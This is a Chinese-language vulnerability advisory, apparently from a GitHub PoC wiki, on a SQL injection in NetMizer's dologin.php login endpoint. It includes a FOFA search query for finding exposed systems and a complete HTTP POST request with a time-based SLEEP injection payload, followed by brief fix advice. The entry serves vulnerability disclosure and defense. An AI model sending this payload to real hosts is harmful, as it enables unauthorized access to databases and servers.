


# NetMizer dologin.php sql注入漏洞(XVE-2024-37672)

# 漏洞描述

NetMizer 在/dologin.php接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

# 影响版本

NetMizer

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：app="NetMizer-日志管理系统"

POC/EXP：

POST /data/login/dologin.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 57

action=login&username='%20OR%20SLEEP(6)--%20qAZp&passwd=1







```

```

# 漏洞修复

参数使用预编译形式用以对sql注入防护，同时限制接口参数输入。

下载官方补丁进行修复


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
